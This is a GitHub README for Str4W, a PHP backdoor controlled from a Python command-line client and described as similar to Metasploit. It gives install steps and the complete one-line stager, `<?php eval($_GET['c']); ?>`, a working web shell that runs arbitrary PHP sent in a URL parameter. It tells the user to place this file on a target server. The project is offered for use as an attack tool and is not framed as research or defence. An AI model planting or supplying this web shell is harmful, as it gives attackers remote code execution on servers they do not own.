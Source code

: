 # Str4W
> A command line PHP backdoor with the simplest stager ever. 

It's a multi functional PHP backdoor (similar to Metasplot to some extent) that uses a very small stager to make powerful things.

![](header.png)

## Installation

This application has been developed with Python 3.7.9 (recommended).
Although, it should work with previous (and future probably) versions of python (> 3.6).

Windows:
   - `pip install -r requirements.txt` to install the required dependencies.
   - `python main.py` to run the application.
   
Linux:
   - `pip3 install -r requirements.txt` to install the required dependencies.
   - `python3 main.py` to run the application.

## Usage example

The CLI is pretty straightforward. The commands are documented, so the user can get a description by using `help <command>`.  
For a complete list of commands, please use `help`.  

Although the interface is kinda user-friendly, you have to place the stager onto the target server.  
Don't worry, it is as simple as placing a PHP file with the following code inside:  
`<?php eval($_GET['c']); ?>`.  
Easy as that. 

## Release History

* 0.0.1
    * Work in progress

## Meta

Zeta314 – [@Zeta314](https://github.com/Zeta314)

Distributed under the GPL3.0 license. See ``LICENSE`` for more information.

[https://github.com/Zeta314/Str4W](https://github.com/Zeta314/)

## Contributing

1. Fork it (<https://github.com/Zeta314/Str4W/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request
